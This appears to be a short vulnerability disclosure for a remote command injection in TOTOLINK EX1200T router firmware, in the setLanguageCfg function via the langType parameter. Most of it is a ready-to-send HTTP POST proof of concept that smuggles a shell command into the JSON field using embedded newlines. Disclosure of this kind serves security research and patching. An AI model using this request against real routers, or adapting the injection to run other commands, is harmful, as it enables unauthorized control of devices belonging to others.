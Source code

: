 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setLanguageCfg` of the file `global.so` , we can control the`langType` to attack.

![image-20211021181124138](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211021181124138.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setting/setLanguageCfg",
"langFlag":"1",
"langType":"\nps>/web_cste/test1\necho"}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)


